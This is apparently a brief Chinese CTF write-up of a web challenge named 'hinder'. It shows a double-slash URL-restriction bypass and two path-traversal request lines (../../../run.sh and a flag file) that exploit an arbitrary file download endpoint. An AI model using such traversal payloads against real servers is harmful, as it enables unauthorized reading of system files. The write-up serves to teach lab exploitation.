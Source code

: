 # web
### hinder
绕过url限制,双写/
根据注释提示,得到url
`http://web-294ad9a3fd.challenge.xctf.org.cn//hinder/download?filename=`
存在任意文件下载

---
咋没想到呢
```text
//hinder/download.action?filename=../../../../../../../../../run.sh
//hinder/download.action?filename=../../../../../../../../../oh_u_f1nd_me
```

# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-07-21   09:28